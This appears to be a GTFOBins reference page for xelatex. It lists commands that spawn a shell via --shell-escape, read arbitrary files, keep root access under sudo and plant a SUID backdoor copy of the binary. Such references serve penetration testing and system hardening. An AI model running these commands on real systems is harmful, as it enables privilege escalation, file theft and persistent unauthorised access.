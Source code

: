 # GTFOBin: xelatex

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
xelatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The read file will be part of the output.

```
xelatex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
strings article.dvi
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

The read file will be part of the output.

```
sudo xelatex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
strings article.dvi
```

```
sudo xelatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which xelatex) .

./xelatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
```